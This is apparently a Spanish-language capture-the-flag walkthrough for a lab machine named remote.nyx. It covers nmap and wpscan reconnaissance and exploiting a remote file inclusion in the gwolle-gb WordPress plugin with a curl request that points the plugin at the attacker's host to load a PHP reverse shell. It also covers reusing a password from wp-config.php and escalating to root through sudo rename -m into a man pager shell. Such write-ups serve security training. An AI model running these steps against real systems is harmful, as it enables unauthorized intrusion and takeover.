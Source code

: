 Hola
Netdiscover, encontramos la ip 192.168.1.68

Primer nmap de reconocimiento de puertos:

nmap -p- -sS --open --min-rate 5000 -n -Pn 192.168.1.68

firstNmap.txt

Realizamos un segundo nmap más exhaustivo para sacar los servicios de los puertos

nmap -p 22,80 -sVC 192.168.1.68

secondNmap.txt

Http en el puerto 80, página web. Ejecutamos dirbuster mientras miramos la página

dirb http://192.168.1.68/

Página por defecto, revisamos el dirbuster y entramos a las diferentes páginas encontradas. Vemos la ruta de wordpress, por lo que miramos en la ruta principal y nos encontramos una web como esta

imagen_error

Revisando la web, vemos que nos redirecciona al clickar en diferentes espacios a remote.nyx, debido a que no lo tenemos contemplado, el navegador no sabe resolver dicho nombre a la ip correspondiente. Para esto, entramos en el archivo /etc/hosts y añadimos lo siguiente:

192.168.1.68	remote.nyx

Una vex heecho esto, recargamos:

imagen_ok

Revisando la página, lo más sencillo sería intentar colar un XSS o RCE a través de los cuadros de texto. No parece ser vulnerable a ello. Se poodría realizar una prueba de SQL injection en caso de que utilice alguna consulta de búsqueda de SQL, no parece ser el caso tampoco

Wordpress tiene la cualidad de tener plugins dentro del software que aunque la propia versión de wordpress no sea vulnerable, estos plugins sí pueden estar desactualizados y ser vulnerables. Debido a esto, vamos a revisar más a fondo el conjunto de plugins que tiene la página. Para esto, utilizamos wpscan:

wpscan --url http://remote.nyx/wordpress/ --enumerate p --plugins-detecion mixed

Este escáner nos da mucha información diferente, pero nos centraremos en los plugins ya que son los más susceptibles a ser vulnerados.

wpscan.txt

Como vemos en la salida, nos encontramos con dos plugins akismet con version 5.2 y gwolle-gb con version 1.5.3, revisando searchsploit, nos encontramos que la versión de gwolle-gb es vulnerable a un RFI (remote file inclusion)
Explicacion vulnerabilidad https://www.exploit-db.com/exploits/38861

El método busca un archivo wp-load.php, por lo que nos creamos una reverse shell en php para subir a nuestro servicio web, mientras tanto, nos quedamos escuchando a la web shell

Haciendo una consulta get a la url, con curl -s -X GET 'http://remote.nyx/wordpress/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.1.103/' obtenemos la shell

Imagen whoami

EXPLICACION control TTY

Una vez dentro, con wl usuario www-data buscamos permisos en el sudoers, capabilities, permisos SUID, pero ninguno parece funcionar. Vamos a buscar credenciales en posibles archivos de configuracion dentro de wordpres. Realizando una pequeña búsqueda con 

find /var/www/html/ -name "*conf*" -type f 2>/dev/null

Encontramos varios archivos, uno en especial es /var/www/html/wordpress/wp-config.php, revisando dentro observamos posibles credenciales de un usuario root en la base de datos

imagen credentials root db

Probamos a entrar a mysql, ya que es la bd que se está utilizando

imagen mysql root

Entramos! Antes de mirar BBDD, podemos probar a entrar como tiago con la pass WPr00t3d123!


Entramos! Tenemos la flag de tiago

Ahora podemos escalar a root. Con sudo -l tenemos la opción de ejecutar como root /usr/bin/rename. Revisando las opciones del comando, nos encontramos con el parámetro -m, el cuál ejecuta el propio manual del comando. Aquí es dónde escalaremos a root, ya que dentro de los visualizadores de archivos con paginación como less, more, man o nano se pueden ejecutar comandos de shell. En este caso con el manual, es tan sencillo como ejecutar !/bin/bash y ya tendremos una shell como root







--Fallido--
Revisando demás directorios dentro de la web, nos encontramoos con una página de login. Probamos pass como admin:admin, sin éxito. De echo nos menciona que no existe usuario admin dentro de la web. Revisando, vemos que el blog es de un usuario "tiago", por lo que ya tenemos un usuario posible en la página que poder comprometer. Revisando más páginas encontramos http://remote.nyx/wordpress/index.php/pagina-ejemplo/, en el que encontramos posible información comprometida del usuario. Usando esto u otras wordlists para hacer un ataque de diccionario sobre la página, pero no parece funcionar.



